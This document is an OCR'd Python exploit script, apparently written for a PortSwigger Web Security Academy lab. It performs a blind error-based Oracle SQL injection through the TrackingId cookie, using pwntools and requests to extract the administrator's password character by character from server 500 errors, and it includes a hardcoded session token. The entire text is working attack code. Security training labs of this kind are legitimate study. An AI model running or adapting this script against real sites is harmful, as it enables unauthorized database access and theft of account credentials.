 #!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string
import time

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


p1 = log.progress("SQLi")

characters = string.ascii_lowercase + string.digits


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range (1, 21):
        for character in characters:
            cookies = {
                    'TrackingId': f"SB3RVC2QjsIChXzV'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else '' end from users where username='administrator')||'",
                    'session': "yhJwbXELgF68qoqh6ofgeLVMmNO3SjFE"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ac6007f045a62fb805e08d800740038.web-security-academy.net/", cookies=cookies)

            if r.status_code == 500:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()